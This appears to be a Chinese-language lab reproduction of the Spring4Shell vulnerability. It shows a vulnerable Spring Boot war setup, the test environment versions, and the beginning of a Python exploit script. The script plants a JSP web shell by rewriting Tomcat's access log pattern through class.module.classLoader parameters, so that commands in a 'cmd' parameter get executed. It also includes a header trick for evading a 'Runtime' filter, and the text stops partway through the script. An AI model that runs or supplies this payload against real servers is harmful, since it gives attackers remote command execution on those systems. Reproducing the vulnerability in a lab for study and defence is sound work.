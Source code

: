 

修改 SpringBoot 的启动类（默认在内置的 tomcat 中启动，要在指定 tomcat 中启动需要继承 SpringBootServletInitializer



```java
@SpringBootApplication
public class ApplicationMain extends SpringBootServletInitializer {
    
    public static void main(String[] args){
        SpringApplication.run(ApplicationMain.class, args);
    }
    
    @Override
    protected SpringApplicationBuilder configure(SpringApplicationBuilder builder){
        return builder.sources(ApplicationMain.class);
    }
}
```

复现环境：

- JDK 11.0.11
- Tomcat 9.0.60
- SpringBoot 2.6.3
- 上面的代码打包 war 包放在 tomcat/webapps 下

利用：

`exploit.py --url http://localhost:8080/addUser`

```py
import requests
import argparse
from urllib.parse import urlparse
import time
 
# Set to bypass errors if the target site has SSL issues
requests.packages.urllib3.disable_warnings()
 
post_headers = {
    "Content-Type": "application/x-www-form-urlencoded"
}
 
get_headers = {
    "prefix": "<%",
    "suffix": "%>//",
    # This may seem strange, but this seems to be needed to bypass some check that looks for "Runtime" in the log_pattern
    "c": "Runtime",
}
 
 
def run_exploit(url, directory, filename):
    log_pattern = "class.module.classLoader.resources.context.parent.pipeline.first.pattern=%25%7Bprefix%7Di%20" \
                  f"java.io.InputStream%20in%20%3D%20%25%7Bc%7Di.getRuntime().exec(request.getParameter" \
                  f"(%22cmd%22)).getInputStream()%3B%20int%20a%20%3D%20-1%3B%20byte%5B%5D%20b%20%3D%20new%20byte%5B2048%5D%3B" \
                  f"%20while((a%3Din.read(b))!%3D-1)%7B%20out.println(new%20String(b))%3B%20%7D%20%25%7Bsuffix%7Di"
 
    log_file_suffix = "class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp"
    log_file_dir = f"class.module.classLoader.resources.context.parent.pipeline.first.directory={directory}"
```